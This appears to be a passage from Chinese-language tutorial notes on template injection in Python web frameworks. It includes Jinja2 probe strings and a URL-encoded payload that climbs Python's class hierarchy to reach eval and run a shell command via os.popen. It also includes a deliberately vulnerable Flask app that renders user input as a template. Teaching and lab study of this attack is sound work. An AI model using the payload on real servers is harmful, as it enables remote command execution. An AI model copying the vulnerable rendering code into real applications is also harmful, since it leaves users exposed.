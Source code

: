   - django
    django 应该使用的是专属于自己的一个模板引擎，我这里姑且就叫他 django，我们都知道 django 以快速开发著称，有自己好用的ORM，他的很多东西都是耦合性非常高的，你使用别的就不能发挥出 django 的特性了
  - tornado
    tornado 也有属于自己的一套模板引擎，tornado 强调的是异步非阻塞高并发.


### python

**jinja2**

- jinja2:`尝试{{7*'7'}}回显 7777777`

模板
```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
{% ... %}：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
```

一些简单注入
```
{{config}}可以获取当前设置
{{self}}
{{self.__dict__._TemplateReference__context.config}} 同样可以看到config
```


变量

在模板中添加变量，可以使用（set）语句。

```
{% set name='xx' %}
```



```url
{%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

**flask**

使用 pycharm(老安装器了) 安装flask 我使用的是 python 3.7。这里直接附上服务器代码
```py
#python3.7
#Flask version:0.12.2
#Jinja2: 2.10
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
    name = request.args.get('name', 'guest')
    t = Template("Hello " + name)
    return t.render()
if __name__ == "__main__":
    app.run();
```

